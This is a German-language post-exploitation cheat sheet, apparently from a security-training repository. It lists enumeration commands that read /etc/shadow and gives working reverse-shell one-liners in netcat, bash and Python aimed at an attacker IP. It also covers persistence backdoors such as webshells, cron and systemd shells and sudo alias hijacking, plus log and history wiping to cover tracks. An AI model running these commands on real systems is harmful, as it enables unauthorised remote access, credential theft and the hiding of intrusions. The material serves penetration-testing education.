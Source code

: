 # 🧪 postExploitationTools.md




## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Nützliche Tools & Hilfsmittel](#nützliche-tools--hilfsmittel)
- [Reverse Shell Snippets](#reverse-shell-snippets)
- [Web-basierte Tools](#web-basierte-tools)
- [Persistenz-Techniken (nur zu Testzwecken!)](#persistenz-techniken-nur-zu-testzwecken)
- [Spuren verwischen](#spuren-verwischen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Nach einem erfolgreichen Angriff (z. B. durch RCE oder SQL-Injection) beginnt die sogenannte **Post-Exploitation-Phase**.  
Hierbei geht es nicht mehr darum, _in ein System einzudringen_, sondern darum, was man _innerhalb_ des kompromittierten Systems erreichen kann.

### Ziele der Post-Exploitation:

- **System- und Benutzerinformationen sammeln**
- **Persistenz herstellen**
- **Privilege Escalation (z. B. root-Rechte erlangen)**
- **Datenexfiltration**
- **Pivoting** (Zugriff auf weitere Systeme)
- **Verdeckte Backdoors / Remote Access installieren**



## Nützliche Tools & Hilfsmittel

### 🛠️ Lokale Tools auf dem Zielsystem

| Befehl / Tool     | Funktion |
|-------------------|----------|
| `uname -a`        | OS- und Kernel-Version anzeigen |
| `id`              | Aktueller Benutzer & Gruppen |
| `whoami`          | Aktueller Benutzername |
| `ps aux`          | Laufende Prozesse |
| `netstat -tulnp`  | Netzwerkverbindungen |
| `ss -tulnp`       | Modernere Alternative zu netstat |
| `find / -perm -4000` | SUID-Dateien (für Privilege Escalation) |
| `cat /etc/passwd` | Benutzerkonten anzeigen |
| `cat /etc/shadow` | Passwort-Hashes (nur als root lesbar) |
| `sudo -l`         | Prüfen, ob sudo-Rechte bestehen |
| `ls -la /home`    | Benutzerverzeichnisse |
| `ls -la /root`    | Root-Verzeichnis (falls zugänglich) |
| `history`         | Kommandoverlauf des aktuellen Benutzers |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 📦 Tools für Dateidownloads & Kommandozugriff

| Tool / Methode | Beschreibung |
|----------------|--------------|
| `wget` / `curl` | Dateien herunterladen (z. B. Backdoor, Binary) |
| `nc` (Netcat)   | Reverse Shells, Dateiübertragung |
| `python3 -m http.server` | HTTP-Dateifreigabe vom Angreifer aus |
| `scp`           | Dateiübertragung via SSH |
| `bash -i >& /dev/tcp/IP/PORT 0>&1` | Bash-Reverse-Shell |
| `socat`         | Stabile Reverse Shells & Tunnels |
| `ssh-keygen` & `authorized_keys` | Persistenz durch SSH-Key-Hinterlegung |



## Reverse Shell Snippets

### Netcat Reverse Shell:
```bash
nc -e /bin/bash YOUR-IP 4444
```

**Bash Reverse Shell:**
```bash
bash -i >& /dev/tcp/YOUR-IP/4444 0>&1
```

**Python Reverse Shell:**
```python
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR-IP",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'
```



## Web-basierte Tools

| Tool                        | Beschreibung                                                     |
| --------------------------- | ---------------------------------------------------------------- |
| **LinPEAS**                 | Automatisierte Linux-Enum (Privilege Escalation)                 |
| **WinPEAS**                 | Windows-Enum (User, Services, Permissions)                       |
| **PowerUp**                 | PowerShell-basierte Privilege Escalation für Windows             |
| **pspy**                    | Beobachtet Prozesse ohne root                                    |
| **GTFOBins**                | Liste legitimer Linux-Kommandos, die zu Escalation führen können |
| **LOLBAS**                  | Windows-Äquivalent zu GTFOBins                                   |
| **chisel**                  | Tunneling Tool für Pivoting                                      |
| **sshuttle**                | VPN-ähnliches Tool für Netzwerktunneling                         |
| **Metasploit Post Modules** | z. B. Token Dumping, Hash Dumping etc.                           |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz-Techniken (nur zu Testzwecken!)

| Technik                             | Beispiel                           |
| ----------------------------------- | ---------------------------------- |
| SSH-Key im `~/.ssh/authorized_keys` | Dauerhafter Zugriff über Key       |
| Cronjob Backdoor                    | Automatisierte Shell bei Neustart  |
| Systemd-Service Backdoor            | `.service`-Datei mit Reverse Shell |
| Webshell in `/var/www/html`         | PHP-Webshell auf dem Webserver     |
| Bash-Alias Hijacking                | `.bashrc` mit `alias sudo='...'`   |



## Spuren verwischen

| Methode      | Beschreibung                           |
| ------------ | -------------------------------------- |
| `history -c` | Shell-History löschen                  |
| `touch -d`   | Dateizeitstempel manipulieren          |
| `shred`      | Dateien sicher löschen                 |
| `logrotate`  | Logdateien überschreiben oder rotieren |

⚠️ Viele dieser Methoden sind leicht detektierbar – nicht „invisible“!



## Siehe auch:

- [sql_injection_to_shell.md](/03-web-security/injektionen/sql-injection-cheatsheet.md)
- [php_rce_cheat_sheet.md](/03-web-security/webshells/php_rce_cheat_sheet.md)
- [union_based_attack.md](/13-vulnerabilities/sqlInjection/union_based_attack.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---